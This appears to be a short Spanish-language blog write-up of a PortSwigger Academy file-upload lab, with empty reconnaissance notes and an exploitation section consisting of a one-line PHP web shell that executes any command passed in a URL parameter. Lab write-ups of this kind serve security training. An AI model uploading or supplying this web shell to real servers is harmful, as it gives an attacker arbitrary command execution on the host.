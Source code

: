 +++
author = "Alux"
title = "Portswigger Academy Learning Path: File Upload Lab 1"
date = "2021-12-16"
description = "Lab: "
tags = [
    "access control",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: 

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar un bypass al control de seguridad que tienen los accesos de los usuarios.



## Reconocimiento


## Explotacion

```php
<?php echo system($_GET['command']); ?>
```



![Laboratorio resuelto](resuelto.png)


[^1]: [Laboratorio](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)